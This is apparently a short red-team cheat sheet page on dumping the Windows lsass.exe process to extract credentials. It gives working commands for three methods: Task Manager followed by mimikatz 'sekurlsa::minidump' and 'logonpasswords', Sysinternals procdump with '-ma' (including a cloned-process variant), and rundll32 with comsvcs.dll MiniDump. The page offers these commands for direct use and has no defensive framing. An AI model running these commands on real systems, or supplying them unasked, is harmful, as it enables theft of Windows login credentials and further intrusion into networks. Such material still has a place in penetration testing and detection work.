

# Dumping Lsass.exe to Disk Without Mimikatz and Extracting Credentials

## Task Manager

Create a minidump of the lsass.exe using task manager \(must be running as administrator\):


Swtich mimikatz context to the minidump:


```csharp
sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```



## Procdump

Procdump from sysinternal's could also be used to dump the process:


```csharp
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```





## comsvcs.dll

Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:

```text
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```


## References



